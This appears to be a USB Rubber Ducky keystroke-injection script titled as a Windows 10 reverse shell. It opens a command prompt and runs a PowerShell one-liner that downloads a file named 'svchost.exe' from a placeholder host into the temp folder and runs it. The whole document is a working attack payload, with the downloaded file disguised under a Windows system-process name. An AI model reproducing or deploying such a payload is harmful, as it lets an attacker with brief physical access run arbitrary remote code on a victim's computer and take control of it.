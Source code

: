 # Windows10_USBRubberDucky_ReversheShell

REM Opens console, downloads a File svchost.exe and execute it
DELAY 500
CONTROL ESCAPE
DELAY 100
STRING cmd.exe
DELAY 100
ENTER
DELAY 400
STRING cd %TEMP%
DELAY 100
ENTER
DELAY 100
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://www.example.com/svchost.exe','%TEMP%\svchost.exe'); Start-Process "%TEMP%\svchost.exe"
ENTER
DELAY 100
STRING exit
DELAY 100
ENTER
